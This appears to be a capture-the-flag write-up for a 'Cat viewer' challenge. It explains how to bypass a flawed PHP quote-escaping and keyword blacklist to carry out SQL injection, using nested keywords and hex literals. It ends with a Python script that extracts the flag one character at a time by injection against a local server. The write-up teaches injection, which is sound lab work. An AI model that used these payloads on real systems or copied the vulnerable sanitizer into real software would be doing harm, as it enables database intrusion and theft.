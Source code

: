 # Cat viewer

## Description
Cats are beautiful, cats are cute, cats will take over the world :)

## Solution

### Overview
The intended solution involves exploiting a SQL Injection vulnerability in the image ID parameter and using the application as an oracle to reconstruct the flag. The `image_id` is directly embedded into the SQL query without prepared statements.

A manual sanitization is performed, but it’s flawed:

```php
$image_id = $_POST['id'];
$image_id = str_replace("'", "\\'", $image_id);
$image_id = str_replace('"', '\\"', $image_id);

$banned_keywords = ['UNION', 'SELECT', 'FROM', 'WHERE', 'AND', 'OR', 'INSERT', 'UPDATE', 'DELETE', 'DROP', 'TABLE', 'DATABASE', 'SCHEMA', 'COLUMN', 'ALTER', 'CREATE', 'INDEX', 'TRIGGER', 'VIEW', 'SLEEP', 'BENCHMARK', 'LOAD_FILE'];

foreach ($banned_keywords as $keyword) {
    $image_id = str_ireplace($keyword, '', $image_id);
}

$sql = "SELECT url_image FROM images WHERE id_image = '" . $image_id . "' LIMIT 1";
```

### Exploitation Strategy
This sanitization can be bypassed in a very simple way:

- **String termination via double escaping**: We can terminate the original string by injecting a backslash followed by a single quote: ```\'``` (backslash + single quote). After the server-side replacement, it becomes ```\\'``` (double backslash + single quote), where the first backslash escapes the second one, and the single quote is treated as the actual end of the string literal.

- **Weak keyword filtering**: The blacklist removes exact keyword matches without checking for partial patterns. For instance, injecting something like UNUNIONION will have the substring UNION stripped out, and what's left will effectively reconstruct a valid UNION.

- **Hex encoding**: To return custom values from the query, we can inject hexadecimal string literals after SELECT. For example: ``` \' UNUNIONION SELSELECTECT 0x666C61677B -- -``` is equivalent to: ``` \' UNION SELECT 'flag{' -- - ```. This works because the initial escape (\' at the beginning) successfully breaks out of the original string. Using escaped quotes again later in the payload (e.g., around 'flag{') would result in malformed syntax like \\'flag{\\', so using hex encoding is safer and more reliable.

### Final Query
After sanitization and injection, the resulting SQL query becomes:
```sql
SELECT url_image FROM images WHERE id_image = '\\' UNION SELECT 'flag{...}' -- - LIMIT 1
```

## Exploit
```py
import requests
import string

url = "http://127.0.0.1:5003"
flag = "flag{"

while not flag.endswith("}"):
    for char in string.printable[:-6]:
        flag_guess = (flag + char).encode().hex()

        data = {"id": f"\\' UNUNIONION SELSELECTECT 0x{flag_guess} -- -"}

        resp = requests.post(url, data=data).text
        if "flag" in resp:
            flag += char
            print(flag)
            break
```
